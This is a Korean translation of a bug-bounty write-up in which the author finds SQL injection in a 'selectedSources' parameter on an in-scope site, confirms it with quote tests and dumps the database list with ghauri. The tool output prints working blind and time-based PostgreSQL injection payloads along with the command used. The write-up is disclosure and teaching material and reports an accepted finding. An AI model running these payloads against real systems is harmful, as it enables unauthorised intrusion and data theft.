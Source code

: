 ```yaml
---
title: "첫 번째 유로 보상을 받은 방법"
description: ""
coverImage: "/assets/img/2024-06-19-HowIGotMyFirstBounty_0.png"
date: 2024-06-19 21:16
ogImage:
  url: /assets/img/2024-06-19-HowIGotMyFirstBounty_0.png
tag: Tech
originalTitle: "How I Got My First €€€€ Bounty"
link: "https://medium.com/@machiavellli/how-i-got-my-first-bounty-65ad8a1763de"
isUpdated: true
---
```


안녕하세요!

이 글에서는 어떻게 첫 번째 €€€€ 현상금을 발견했는지에 대해 공유하겠습니다.

처음에는 프로그램 범위가 다양한 서비스와 관련된 URL 집합이었기 때문에 기본 수동 현지 조사로 시작했습니다. 예를 들어:

- https://ex.admin.service.example.com/

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

https://ex.service.service.example.com/

https://ex.abc.service.example.com/

또한, 프로그램은 역할을 테스트하기 위한 자격 증명을 제공했습니다.

그런 다음 Burp를 통해 트래픽을 프록시하여 일반 사용자처럼 정렬기능을 제외한 다른 기능을 테스트하면서 사이트를 찾아보았지만, 흥미로운 기능은 없었습니다. 어떤 JS 파일에서 이미 본 흥미로운 매개변수들이 있었다는 것을 알게 되었습니다.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

“SelectedSources, SelectedTemplateNames” 처음에는 아마도 데이터베이스에서 일부 데이터를 가져오는 것인줄 알았어요. 그래서 '“, ‘, \', 와 같은 특수 문자를 입력하여 ' 이상을 찾는 테스트를 해보기로 결정했어요. 하나의 따옴표를 입력하자 500 HTTP 상태 코드(내부 서버 오류)를 받았고, 또 다른 따옴표를 더 추가하니 200 HTTP 상태 코드(정상)를 받았어요.

```js
https://ex.service.example.com/history?selectedSources=someSources' > 500
```

```js
https://ex.service.example.com/history?selectedSources=someSources'' > 200
```

가끔은 역슬래시를 입력하여 확인하기도 해요. 그런데 여기서는 400 안 좋은 요청(Java 앱이었어요)을 받았어요.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
그 후에는 데이터베이스 버전을 추출하기 위해 sqlmap을 실행해 보았지만, 불행히도 sqlmap은 PostgreSQL이 DBMS임을 제외하고는 아무것도 추출하지 못했습니다. 그러나 포기하지 않고 대신 ghauri(https://github.com/r0oth3x49/ghauri.git)를 사용해 보았어요!

ghauri -u "https://ex.service.example.com/history?selectedSources=someSources" --dbms=postgres --cookie="JSESSIONID=09326D266052B6B0F7E391B7BBD3A284" --dbs

Boom! 🚀
```

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
[09:22:32] [INFO] 대상 URL에 대한 연결 테스트 중
Ghauri는 저장된 세션에서 다음 인젝션 지점을 재개했습니다:
매개변수: selectedSources (GET)
    유형: 블라인드 기반 boolean
    제목: OR 블라인드 기반 - WHERE 또는 HAVING 절
    페이로드: selectedSources=someSources') OR 06690=6690 OR ('04586'='4586

    유형: 블라인드 기반 시간
    제목: PostgreSQL > 8.1 및 시간 기반 블라인드 (주석)
    페이로드: selectedSources=someSources') AND 4564=(SELECT 4564 FROM PG_SLEEP(6)) OR ('04586'='4586

[09:22:33] [INFO] PostgreSQL 테스트 중
[09:22:34] [INFO] PostgreSQL 확인 중
[09:22:34] [INFO] 백엔드 DBMS는 PostgreSQL입니다
[09:22:34] [INFO] 데이터베이스 이름 검색 중
[09:22:34] [INFO] 데이터베이스 수 검색 중
[09:22:51] [INFO] 검색된 결과: 3
[09:26:01] [INFO] 검색된 결과: information_schema
[09:27:51] [INFO] 검색된 결과: pg_catalog
[09:28:57] [INFO] 검색된 결과: public
사용 가능한 데이터베이스 [3]:
[*] pg_catalog
[*] public
[*] information_schema
```

제보했고, 딱 한 시간 만에 트리저가 보고서를 회사에 전달했고, 그들은 취약점을 인정했습니다.

<img src="/assets/img/2024-06-19-HowIGotMyFirstBounty_0.png" />

다음 날, 회사에서 바운티를 수여했습니다.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

![이미지](/assets/img/2024-06-19-HowIGotMyFirstBounty_1.png)

마지막으로, 이해하지 못하는 도구, 기술 또는 프로그램에만 집착하지 마세요. 그렇게 하면 탈진하게 될 거예요. 이미 인터넷은 취약점으로 가득 찬 곳이니까요.

Twitter/X: https://x.com/MachIaVellill

سَلامٌ
